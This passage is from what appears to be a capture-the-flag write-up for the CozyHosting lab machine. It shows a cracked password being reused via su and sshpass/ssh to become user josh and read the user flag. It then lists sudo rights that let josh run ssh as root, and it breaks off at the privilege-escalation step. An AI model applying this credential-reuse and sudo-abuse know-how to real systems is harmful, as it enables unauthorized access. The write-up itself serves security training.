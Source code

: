 admin’s password is “manchesterunited”.

### su / SSH

The other user on the box is josh, and that password works with `su`:

```

app@cozyhosting:/$ su - josh
Password: 
josh@cozyhosting:~$

```

Or I can get a clean shell with SSH:

```

oxdf@hacky$ sshpass -p manchesterunited ssh josh@cozyhosting.htb
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-82-generic x86_64)
...[snip]..
josh@cozyhosting:~$ 

```

Either way, I can grab `user.txt`:

```

josh@cozyhosting:~$ cat user.txt
30628c91************************

```

## Shell as root

### Enumeration

The josh user can run `ssh` as root using `sudo`:

```

josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *

```

### Execution
